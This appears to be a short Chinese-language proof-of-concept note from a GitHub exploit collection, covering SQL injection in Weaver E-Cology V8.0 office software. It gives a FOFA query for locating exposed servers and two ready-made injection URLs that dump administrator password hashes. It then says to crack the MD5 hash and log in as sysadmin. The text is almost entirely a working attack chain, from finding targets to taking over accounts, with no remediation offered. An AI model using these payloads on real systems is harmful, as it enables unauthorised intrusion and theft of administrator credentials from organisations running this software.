 # 泛微OA E-Cology V8.0 SQL注入漏洞
## 资产收集：
fofa：`app="泛微-协同办公OA"`
## POC
- getdata.jsp:`/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager`  
![](/img/E-Cology_sql.png)
- LoginSSO.jsp SQL:`/upgrade/detail.jsp/login/LoginSSO.jsp?id=1%20UNION%20SELECT%20password%20as%20id%20from%20HrmResourceManage`  
md5解密后登陆：`sysadmin/md5解密的密码`